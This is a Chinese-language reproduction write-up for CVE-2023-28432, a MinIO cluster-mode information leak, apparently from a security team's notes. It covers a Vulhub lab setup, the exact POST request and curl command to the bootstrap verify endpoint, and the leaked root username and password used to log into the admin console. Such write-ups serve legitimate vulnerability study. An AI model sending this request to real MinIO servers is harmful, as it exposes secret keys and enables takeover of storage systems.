 # CVE-2023-28432

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述： ** MinIO集群模式信息泄漏

# 0x01 漏洞描述

MinIO是一个开源对象存储系统。

集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。

# 0x02 影响范围

在其RELEASE.2023-03-20T20-16-18Z版本（不含）以前

# 0x03 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```javascript
docker-compose up -d
```

集群启动后，访问http://your-ip:9001可以查看Web管理页面，访问http://your-ip:9000是API服务。

 ![](attachments/75ad6200-bcdb-4c30-8d97-ec787ee64ca8.png)

# 0x04 漏洞复现

这个漏洞存在于API节点http://your-ip:9000/minio/bootstrap/v1/verify上，发送如下数据包即可查看泄露的环境变量：

```javascript
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

 ![](attachments/dd6c223b-d297-4cce-b493-2473c4aaf216.png)也可以直接 curl：

```javascript
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含MINIO_ROOT_USER (accessKey)和MINIO_ROOT_PASSWORD (secretKey)。使用这个账号密码，即可成功登录管理后台：

```javascript
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

 ![](attachments/f39d3e3c-3e84-4bc4-abfd-2ef83ed89d47.png)